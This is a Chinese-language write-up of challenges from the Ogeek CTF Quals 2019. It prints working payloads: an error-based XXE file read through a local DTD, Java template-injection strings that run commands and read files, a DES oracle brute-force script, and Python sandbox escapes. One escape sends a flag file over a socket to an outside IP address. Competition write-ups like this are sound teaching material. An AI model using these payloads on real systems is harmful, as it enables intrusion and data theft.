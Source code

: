 ```yaml
---
title: Ogeek CTF Quals 2019 Writeup
categories: CTF
tags:
  - writeup
abbrlink: 45148
date: 2019-08-26 01:38:28
---
```


## 写在之前

周末打了这个比赛,趟大佬的车,混到第六.如果不是我这么菜,有机会第四或第三的.

如此简单的web题都解不了,丢人(捂脸

感谢比赛过程中队内各位大佬给的各种提示.

以下writeup仅是我自己能解的题或参与解的题.

## WEB

### LookAround 

F12查看源码发现一个文件名奇怪的js,功能是定时发送请求.

请求内容比较奇怪,猜测就是考点,xxe了.

随便改了下xml,就发生500报错.

尝试了下常见的payload,猜测逻辑,如果xml合法则无返回,xml异常则500报错.

队内师傅提醒之下,找到关键点

![img](/1.png)

[exploiting-xxe-with-local-dtd-files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

文章里给的payload

![1566745929599](/2.png)

文件不存在,那就找一个linux系统默认存在的,直接去linux全局文件搜索

![1566746070866](/1566746039967.png)

找一个可以用的,报错xxe成功获取flag

最终payload如下

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % condition 'aaa)>
        aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

### render

随便测试了一下,发现[[9*9]]中的内容被执行了输出了49.

搭配题目名字render,SSTI没跑了.

网上搜索发现了几个可用的payload

<https://www.4hou.com/vulnerable/9779.html>

`[[${T(java.lang.System).getenv()}]]`

![1566747041625](/1566747041625.png)

执行命令:

`${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}`

但是没有回显,测试了`nc,curl,wget`都弹不出来.不熟悉java.

然后队内师傅提示,直接读文件.

`[[${new [java.io](qq://txfile/#).BufferedReader(new [java.io](qq://txfile/#).FileReader("/flag")).readLine()}]]`

### Easy Realworld Challenge 

比赛的时候没做出来,卡在FTP读文件,时间上差了一点,有机会第四,还是我太菜了.

题解明天再整

## Crypto

### babycry

常见套路,第一次爆破flag前7位需要手动改一下,懒得写一键脚本了.第七位到最后爆破的脚本如下:

```
from pwn import *
flagkey="1234567890qwertyuiopasdfghjklzxcvbnm{}-_"
flag=''

def conn ():
    global  r
    r = remote("139.9.222.76",19999)
    r.recv()

    #r.sendline("1"*pad)
    return r


def cut_text(text,lenth):
    textArr = re.findall('.{'+str(lenth)+'}', text)
    textArr.append(text[(len(textArr)*lenth):])
    return textArr

def get(conn,s):
	conn.sendline('des '+s)
	return cut_text(conn.recv(),16)[:-1]


def fuck():
	r = conn()
	f = 'flag{c0'
	for k in range(1,5):
		pad = 0

		for j in range(8):
			padding='0'*(8-pad)

			stand = get(r,padding)[k]
			for i in flagkey:
				stand2 = get(r,padding+f+i)[k]

				if stand == stand2:
					pad = pad + 1
					f = f + i
					print f
					break
			
fuck()
#flag{c0ngratul4tions_1_y0uve_chec7ed_1n_ogeek}


```

## MISC

### pybox

绕过思路和ciscn的一样,就是没回显

`__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep 4')`

那就弹,又是`nv,curl,wget`都试一遍,无果

看提示,cut,sleep,那就是时间盲注了

` __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep $(ca'+'t /home/flag|cut -c1|tr f 4)')`

但是tr被过滤了,尝试别的方法替换字符串.

```
__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')("export str=\`tac /home/flag\`;str=${str:0:1};str=${str/f/2} && sleep $str ")  
```

不知道为什么只有通配符能替换,ascii1-256都不行,无果

又是队内大佬提示

```shell
s=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('socket').__getattribute__('socket')()
s.connect(('111.111.111.111', 11111))
p=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('popen')('cut -c 1-64 flag')
s.send(p.read())
```

感觉这是非预期解了